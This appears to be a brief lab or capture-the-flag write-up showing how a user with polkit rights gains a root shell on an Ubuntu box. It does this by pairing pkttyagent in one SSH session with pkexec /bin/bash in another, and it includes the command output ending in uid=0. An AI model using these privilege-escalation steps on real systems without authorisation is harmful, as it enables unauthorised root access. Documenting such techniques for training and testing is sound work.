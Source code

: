 #### `pkexec` allows an authorized user to execute commands as another user.

#### We could have used pkexec /bin/bash to spawn a shell as root.

#### We needed to create two SSH connections as user.

. On the first SSH session
```
echo $$
2178 (pid)
```  
. second SSH session
```
pkttyagent -p 2178 (pid)
```

. first SSH session
```
pkexec /bin/bash
```

. second SSH session
```
==== AUTHENTICATING FOR org.freedesktop.policykit.exec ===
Authentication is needed to run `/bin/bash' as the super user
Authenticating as: user
Password:

==== AUTHENTICATION COMPLETE ===
Connection to 10.10.66.240 closed by remote host.
```
. first SSH session
```
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```
